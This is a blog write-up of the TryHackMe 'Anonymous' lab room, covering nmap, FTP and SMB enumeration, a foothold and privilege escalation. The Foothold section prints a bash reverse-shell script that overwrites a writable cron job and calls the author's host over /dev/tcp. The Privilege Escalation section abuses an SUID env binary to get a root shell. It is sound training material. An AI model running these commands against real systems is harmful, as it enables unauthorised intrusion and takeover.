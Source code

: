 ```yaml
---
title: "TryHackMe - Anonymous"
author: Nasrallah
description: ""
date: 2022-04-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, smb, ftp]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Anonymous](https://tryhackme.com/room/anonymous) from [TryHackMe](https://tryhackme.com)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.50.126                                                                                                                            
Host is up (0.12s latency).                                                                                                                                  
Not shown: 996 closed tcp ports (reset)                                                                                                                      
PORT    STATE SERVICE     VERSION                                             
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:                                                                                                                                                    
| FTP server status:                                                          
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp                
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -21m37s, deviation: 0s, median: -21m37s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2022-04-03T12:43:56
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-04-03T12:43:56+00:00
```

There are 4 open ports:

 - 21 ftp vsftpd
 - 22 ssh OpenSSH 7.6p1
 - 139 netbios-ssn Samba smbd
 - 445 netbios-ssn Samba smbd

Let's start off by enumerating ftp since it allows anonymous login.

## FTP

We can connect to the ftp server with `ftp {target_IP}`, we supply the name as `anonymous` and we can left the password blank.

![](/assets/img/tryhackme/anonymous/a1.png)

We found some files on the server, we can download them to our machine using `get {filename}`.

Now that the files are downloaded, let's see what's on them.

![](/assets/img/tryhackme/anonymous/a3.png)

First, we have `clean.sh` script that seems to be a cleaning script. The `to_do.txt` file has a note for removing the anonymous login. The third file, `removed_file.log`, has a bunch of text that's beings repeated, and it is the same text we saw in the `clean.sh` script ,so there must be a cronjob that runs `clean.sh` regularly.

## SMB

We can check the shares of the smb server by running : `sudo smbclient -L {target_IP} -N`.

![](/assets/img/tryhackme/anonymous/a2.png)

We found `pics` share, we can connect to that share with this command : `sudo smbclient //{target_IP}/pics -N`

![](/assets/img/tryhackme/anonymous/asmb.png)

There are two pictures there, i downloaded them using `get {filename}`, inspected them for hidden content but i got nothing.


# **Foothold**

We can use the `clean.sh` script to get access to the machine, let's check it's permissions first.

![](/assets/img/tryhackme/anonymous/a4.png)

We see that can edit the script. What i did is i created a file with the same name 'clean.sh' and put the following script in that file.

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.x.x/9001 0>&1
```

This script sends a reverse shell, so i setup a listener on my machine with `nc -lvnp 9001`, and uploaded a script to the ftp server using `put clean.sh`.

![](/assets/img/tryhackme/anonymous/a5.png)

Waiting for some time, i got the shell.

![](/assets/img/tryhackme/anonymous/a6.png)


# **Privilege Escalation**

For privesc, I uploaded linpeas and ran it.

![](/assets/img/tryhackme/anonymous/a7.png)

We found that `env` has suid binary set, searching for the binary in [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found that we can run `env /bin/bash -p` and get a root shell

![](/assets/img/tryhackme/anonymous/a8.png)

Great! We got root access.


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
